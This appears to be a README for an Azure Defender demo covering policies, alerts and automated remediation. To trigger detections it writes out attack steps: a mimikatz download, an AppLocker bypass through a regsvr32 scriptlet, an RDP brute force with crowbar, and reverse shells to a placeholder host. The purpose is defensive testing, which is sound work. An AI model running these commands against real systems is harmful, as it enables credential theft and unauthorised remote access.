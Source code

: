 # Infrastructure demo

## Posture management - secure score, best practicies, vulnerabilities
### Vulnerabilities
Check vulnerabilities found in VMs (by Qualys engine), container images, storage accounts, recommended security configurations.

### Policies - VMs, Kubernetes, Policy as Code
- Explain policy as code principles
- In policy definitions show examples:
    - Azure policy -> search for:
        - locations
        - backup
        - encrypt
        - firewall
        - logs
    - OS level policies -> search for audit
    - Containers and Kubernetes policies -> search for container
- Search for initiatives such as ISO 27001
- Remediations
- Blueprints

## Threat protection and automation

### Windows Host level protection
Search for alerts such as suspicious process or RDP attack.

To generate some alerts, you can run the following on monitored VM.

```powershell
# Create file with malware test content
'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | Out-File EICAR.com

# Copy svchost.exe to non-standard location and execute it
Copy-Item -Path C:\Windows\System32\svchost.exe C:\
C:\svchost.exe

# Download and expand mimikatz
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip","c:\install\mimikatz_trunk.zip")
cd c:\install
Expand-Archive -LiteralPath 'c:\install\mimikatz_trunk.zip'

# Attempt to bypass App Locker
echo '<?XML version="1.0"?>' | Out-File test.sct
echo '<scriptlet>' | Out-File -Append test.sct
echo '<registration' | Out-File -Append test.sct
echo ' progid="TESTING"' | Out-File -Append test.sct
echo ' classid="{A1112221-0000-0000-3000-000DA00DABFC}" >' | Out-File -Append test.sct
echo ' <script language="JScript">' | Out-File -Append test.sct
echo ' <![CDATA[' | Out-File -Append test.sct
echo ' var foo = new ActiveXObject("WScript.Shell").Run("powershell.exe InvokeWebRequest -OutFile eicar.com http://www.eicar.org/download/eicar.com");' | Out-File -Append test.sct
echo ' ]]>' | Out-File -Append test.sct
echo '</script>' | Out-File -Append test.sct
echo '</registration>' | Out-File -Append test.sct
echo '</scriptlet>' | Out-File -Append test.sct
regsvr32.exe /s /u /i:test.sct scrobj.dll
```

From Linux machine initiate RDP brute force attack. 

```bash
# Download 500 worst passwords dictionary
wget http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2
bzip2 -d 500-worst-passwords.txt.bz2

# Install crowbar and run RDP dictionary attack
sudo apt install -y ubuntu-desktop nmap openvpn freerdp-x11 tigervnc-viewer python3 python3-pip

git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt

./crowbar.py -b rdp -u administrator -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n1
./crowbar.py -b rdp -u tomas -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n 1
./crowbar.py -b rdp -u tomas -c Azure12345678 -s 10.0.0.4/32 -v -D -n 1
```

Use automation to isolate RDP access (Logic App with NSG). Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

1. Open Alert that includes attacker IP (eg. RDP brute force attack)
2. In portal show VM blade with Networking - RDP from inside VNET is allowed without restrictions
3. Take action on alert by invoking isolateVm Logic App
4. Check VM blade again for blocking rule on Networking
5. You will also receive email message

As preventive measure consider no direct access to machines at all, only privileged access workstation (jump server) such as Azure Bastion. Configure Network Security Group to enable RDP access only from Bastion service and demonstrate Bastion via browser on Azure portal.

```powershell
$resourceGroupName = "azdefender"
$nsgName="azdefender-nsg"
$bastionSourceRange="10.0.1.0/24"

# Get the NSG resource
$nsg = Get-AzNetworkSecurityGroup -Name $nsgName -ResourceGroupName $resourceGroupName

# Add the inbound security rule to allow RDP from Bastion subnet
$nsg | Add-AzNetworkSecurityRuleConfig -Name "AllowRdpFromBastion" -Description "Allow RDP from Bastion subnet" -Access Allow `
    -Protocol Tcp -Direction Inbound -Priority 150 -SourceAddressPrefix $bastionSourceRange -SourcePortRange * `
    -DestinationAddressPrefix * -DestinationPortRange 3389

# Add the inbound security rule to deny all other RDP access
$nsg | Add-AzNetworkSecurityRuleConfig -Name "DenyAllRdp" -Description "Deny all RDP access" -Access Deny `
    -Protocol Tcp -Direction Inbound -Priority 151 -SourceAddressPrefix "*" -SourcePortRange * `
    -DestinationAddressPrefix * -DestinationPortRange 3389

# Update the NSG.
$nsg | Set-AzNetworkSecurityGroup
```

### Linux Host level protection
Generate suspicious activity on Linux VM.

```bash
# Attempt to create revese shell
nc -e /bin/bash 1.2.3.4 1234
bash -i>& /dev/tcp/1.2.3.4/1234 0>&1

# Add and remove kernel module
# sudo insmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
# sudo rmmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
```

Check alert in Azure Defender.

### Storage protection
As per demo install instructions (README.md) we have already uploaded EICAR test malware file to blob storage.

Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

Demonstrate blob malware automation:
1. Open alerts that malware was detected in Blob Storage
2. Open Blob Storage and show files is there
3. Click on alert and take action by executing azdefenderDeleteBlob Logic App
4. You will receive email - click on delete button
5. Show file has been deleted, yet is recoverable due to Soft Delete feature
6. Show confirmation email

### Kubernetes protection
Open Azure Cloud Shell (bash) and install few resources that run privileged container, create new highly privileged role and create new cluster-role binding on admin.

```powershell
$resourceGroupName = "azdefender"
Import-AzAksCredential -ResourceGroupName $resourceGroupName -Name $(Get-AzResourceGroupDeployment -ResourceGroupName $resourceGroupName -Name azdefender-infra).outputs.kubeName.Value -Force

kubectl apply -f https://raw.githubusercontent.com/tkubica12/azdefender-demo/master/kubernetes/resources.yaml 
```

After some time check alerts in Azure Defender.

